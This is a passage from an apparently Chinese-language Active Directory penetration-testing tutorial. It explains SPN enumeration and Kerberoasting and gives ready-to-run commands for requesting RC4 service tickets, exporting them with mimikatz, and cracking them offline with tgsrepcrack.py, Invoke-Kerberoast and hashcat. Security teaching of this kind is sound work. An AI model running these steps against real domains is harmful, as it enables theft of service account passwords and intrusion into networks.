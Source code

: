 获取当前目标域中所有以域用户身份起服务的 SPN：

```cmd
cscript.exe GetUserSPNs.vbs
powerview --> Get-NetUser -SPN
```

**Kerberoast:**

Kerberos TGS 服务票据 (Service Ticket) 离线爆破，在我们取得了 SPN 的修改权限后，可以为指定的域用户添加一个 SPN，这样可以随时获得该域用户的 （TGS 票据许可服务器授予的）**服务票据 ST**，经过破解后获得 Server 端的明文口令。

在 KRB_TGS _REP 中，TGS 会返回给 Client 一张票据 ST，而 ST 是由 Client 请求的 Server 端密码进行加密的。当 Kerberos 协议设置票据为 RC4 方式加密时，我们就可以通过爆破在 Client 端获取的票据 ST，从而获得 Server 端的密码。

（1）申请 TGS

```powershell
PS>Add-Type -AssemblyName System.IdentityModel
PS>New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/WebDemo_PC.rcoil.me"
```

这一整个过程是通过 AS-REQ、AS-REP、TGS-REQ、TGS-REP 这四个认证流程，最终获取到 RC4 方式的加密票据。

（2）获取 TGS-REP

Kerberos 协议中请求的票据会保存在内存中，可以通过 klist 命令查看当前会话存储的 kerberos 票据。

使用 mimikatz 的 kerberos::list /export 导出。

（3）爆破 TGS-REP

可选择工具:

- tgsrepcrack.py (kerberoast 套装)

  ```cmd
  python tgsrepcrack.py password.txt tgs.kirbi
  ```
- hashcat (密码破解全能工具，kali 自带)
  Empire\Invoke-Kerberoast.ps1：
  ```Powershell
  Invoke-Kerberoast -Outputformat Hashcat | fl > test1.txt
  ```
  使用 HASHCAT 工具进行破解：
  ```cmd
  hashcat64.exe –m 13100 test1.txt password.list –force
  ```




**- 参考 -**

\[1\] 《内网安全攻防：渗透测试实战指南》

\[2\] [域渗透——Pass The Hash的实现](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/)
\[3\] [彻底理解Windows认证 - 议题解读](https://payloads.online/archivers/2018-11-30/1)
\[4\] [域渗透——DCSync](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/)
\[5\] [【域渗透】SPN 扫描利用](https://rcoil.me/2019/06/%E3%80%90%E5%9F%9F%E6%B8%97%E9%80%8F%E3%80%91SPN%20%E6%89%AB%E6%8F%8F%E5%88%A9%E7%94%A8/)